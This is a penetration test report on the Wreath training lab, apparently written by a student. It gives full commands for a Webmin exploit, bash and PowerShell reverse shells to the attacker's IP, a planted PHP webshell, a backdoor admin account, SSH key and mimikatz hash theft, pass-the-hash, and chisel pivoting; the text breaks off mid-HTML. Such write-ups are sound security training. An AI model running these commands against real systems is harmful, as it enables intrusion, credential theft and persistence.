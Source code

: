 # Penetration Test Report - Wreath

## Table of Contents

- Executive Summary
- Timelines
- Targets - Findings and Remediations
- Conclusion
- References
- Appendices

_____________________________________

## Executive Summary

Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## Timeline

The sequence is as follows:
1. Webserver (`.200`) 
   1. enumeration
   2. exploitation
   3. maintain access
2. Pivoting with Webserver (`.200`)
3. gitserver (`.150`) 
   1. enumeration
   2. exploitation
   3. maintain access
4. Personal PC (`.100`)
   1. enumeration
   2. code review
   3. exploitation
   4. maintain access

_____________________________________

## Targets

## 1. Webserver (`.200`)

### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

_____________________________________

### Clean up

- TODO


</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

</details>
<br>

_____________________________________

## 3. gitserver (`.150`)

### Findings

- Ports `80`, `3389`, `5986` are open
- git server running `gitstack`
- `gitstack` is vulnerable to unauthenticated RCE
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists

![gitserver](gitPivot.png)

Visiting the page shows a login page (default admin/admin creds do not work here)

![gitserver login](gitstack.png)

_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

_____________________________________

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

_____________________________________

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

_____________________________________

### Clean up

- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver

</details>
<br>

_____________________________________

## 4. Personal PC (`.100`)

### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50


Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here) - `netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:34:39 client: tun: proxy#127.0.0.1:9090=>socks: Listening
2021/04/22 06:35:24 client: Connection error: read tcp 10.50.86.79:40978->10.200.85.150:34999: i/o timeout
2021/04/22 06:35:24 client: Retrying in 100ms...
2021/04/22 06:36:09 client: Connection error: read tcp 10.50.86.79:40980->10.200.85.150:34999: i/o timeout (Attempt: 1)
2021/04/22 06:36:09 client: Retrying in 200ms...
2021/04/22 06:36:54 client: Connection error: read tcp 10.50.86.79:40982->10.200.85.150:34999: i/o timeout (Attempt: 2)
2021/04/22 06:36:54 client: Retrying in 400ms...
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5
![foxyproxy setting](foxyproxysetting.png)

5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer to detect php is used on this page

![local web server](wapplocalwebserver.png)

Further enumeration is required

_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits

```
*Evil-WinRM* PS C:\GitStack\repositories> download Website.git
Info: Downloading C:\GitStack\repositories\Website.git to Website.git

Info: Download successful!
```

Rename the downloaded folder 
```
kali@kali:~/thm/wreath$ mv Website.git/C\:\\GitStack\\repositories\\Website.git/ Website.git/.git
kali@kali:~/thm/wreath$ ls -la Website.git/
total 12
drwxr-xr-x 3 kali kali 4096 Apr 22 07:20 .
drwxr-xr-x 7 kali kali 4096 Apr 22 07:07 ..
drwxr-xr-x 5 kali kali 4096 Apr 22 07:09 .git
```

We then use GitTools to extract some data
```
kali@kali:~/thm/wreath$ ls -la gitserver/downloaded-website/
total 12
drwxr-xr-x 3 kali kali 4096 Apr 23 06:44 .
drwxr-xr-x 3 kali kali 4096 Apr 23 06:44 ..
drwxr-xr-x 6 kali kali 4096 Apr 23 06:40 .git
kali@kali:~/thm/wreath$ ls GitTools/
Dumper  Extractor  Finder  LICENSE.md  README.md
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits but are not sorted by date
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

Inside each commit folder, there is a `commit-meta.txt` which tells us more info
```
kali@kali:~/thm/wreath/gitserver/Website$ cat 0-70dde80cc19ec76704567996738894828f4ee895/commit-meta.txt 
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and cat them out `separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done`

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

There are three commit messages here `Static Website Commit`, `Updated the filter`, `Initial Commit for the back-end`. 

Commit without a parent would be the first one. The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

Now we head into the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls -la
total 68
drwxr-xr-x 7 kali kali  4096 Apr 23 06:45 .
drwxr-xr-x 5 kali kali  4096 Apr 23 06:45 ..
-rw-r--r-- 1 kali kali   225 Apr 23 06:45 commit-meta.txt
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 css
-rw-r--r-- 1 kali kali 17340 Apr 23 06:45 favicon.png
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 fonts
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 img
-rw-r--r-- 1 kali kali 15383 Apr 23 06:45 index.html
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 js
drwxr-xr-x 3 kali kali  4096 Apr 23 06:45 resources
```

We use the `find` command to look for php files

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
                if(file_exists($target)){
                        header("location: ./?msg=Exists");
                        die();
                }
                $size = getimagesize($_FILES["file"]["tmp_name"]);
                if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
                        header("location: ./?msg=Fail");
                        die();
                }
                move_uploaded_file($_FILES["file"]["tmp_name"], $target);
                header("location: ./?msg=Success");
                die();
        } else if ($_SERVER["REQUEST_METHOD"] == "post"){
                header("location: ./?msg=Method");
        }


        if(isset($_GET["msg"])){
                $msg = $_GET["msg"];
                switch ($msg) {
                        case "Success":
                                $res = "File uploaded successfully!";
                                break;
                        case "Fail":
                                $res = "Invalid File Type";
                                break;
                        case "Exists":
                                $res = "File already exists";
                                break;
                        case "Method":
                                $res = "No file send";
                                break;

                }
        }
?>
<!DOCTYPE html>
<html lang=en>
        <!-- ToDo:
                  - Finish the styling: it looks awful
                  - Get Ruby more food. Greedy animal is going through it too fast
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  - Phone Mrs Walker about the neighbourhood watch meetings
        -->
        <head>
                <title>Ruby Pictures</title>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
